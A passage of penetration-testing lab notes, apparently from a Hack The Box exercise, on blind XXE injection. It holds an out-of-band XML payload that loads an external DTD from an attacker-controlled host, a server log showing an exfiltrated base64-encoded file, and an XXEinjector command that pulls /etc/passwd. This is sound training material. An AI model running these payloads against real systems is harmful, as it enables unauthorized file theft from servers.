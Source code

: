 - Send request to the target
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- Data retrieved on the Response on the PHP server
``` TXT
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50464 [200]: GET /?content=PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50464 Closing
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50466 Accepted
[Mon Nov 11 22:04:06 2024] 

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```
#### Automated
- [XXEinjector](https://github.com/enjoiz/XXEinjector)
- Copy the HTTP request from Burp and write it to a file for the tool to use. 
- Don't include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:
``` HTTP
POST /blind/submitDetails.php HTTP/1.1
[Headers_SNIP]....

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
- run the tool
``` bash
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```
* All exfiltrated files get stored in the Logs folder under the tool `cat Logs/10.129.201.94/etc/passwd.log`
---